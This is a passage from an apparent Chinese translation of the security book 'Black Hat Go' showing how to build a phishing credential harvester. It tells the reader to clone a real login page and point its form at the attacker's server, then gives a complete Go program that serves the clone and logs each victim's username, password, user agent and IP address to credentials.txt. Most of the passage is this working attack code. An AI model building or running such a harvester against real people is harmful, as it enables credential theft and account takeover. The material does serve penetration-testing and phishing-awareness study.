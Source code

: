 代码 4-7: [https://github.com/blackhat-go/bhg/ch-4/credential\_harvester/](https://github.com/blackhat-go/bhg/ch-4/credential_harvester/) 文件夹结构

`public`目录中的文件表示未更改的克隆登录站点。需要修改原始的登录表单来重定向输入的凭证，将它们发送给自己的服务而不是之前那个合法的服务。开始，打开`public/index.html`并找到使用POST发送登录请求的表单元素。应该看起来像下面这样：

```markup
<form name="form" method="post" action="http://127.0.0.1/?_task=login">
```

需要将标签为`action`的属性更改为自己的服务地址。将`action`改为`/login`并保存。现在该行看起来像下面这样：

```markup
<form name="form" method="post" action="/login">
```

首先需要提供`public`目录中的文件，才能正确的渲染登录表单和捕获username和password。然后需要为`/login`写个`HandleFunc`来捕获username和password。还希望将捕获的凭证存储在文件中，并进行详细的日志记录。

只需几十行代码就可以处理所有的这些问题。代码4-8是该程序的完整代码。

```go
package main

import (
    "net/http"
    "os"
    "time"

    log "github.com/Sirupsen/logrus"
    "github.com/gorilla/mux"
)

func login(w http.ResponseWriter, r *http.Request) {
    log.WithFields(log.Fields{
        "time":       time.Now().String(),
        "username":   r.FormValue("_user"),
        "password":   r.FormValue("_pass"),
        "user-agent": r.UserAgent(),
        "ip_address": r.RemoteAddr,
    }).Info("login attempt")
    http.Redirect(w, r, "/", 302)
}

func main() {
    fh, err := os.OpenFile("credentials.txt", os.O_CREATE|os.O_APPEND|os.O_WRONLY, 0600)
    if err != nil {
        panic(err)
    }
    defer fh.Close()
    log.SetOutput(fh)
    r := mux.NewRouter()
    r.HandleFunc("/login", login).Methods("POST")
    r.PathPrefix("/").Handler(http.FileServer(http.Dir("public")))
    log.Fatal(http.ListenAndServe(":8080", r))
}
```
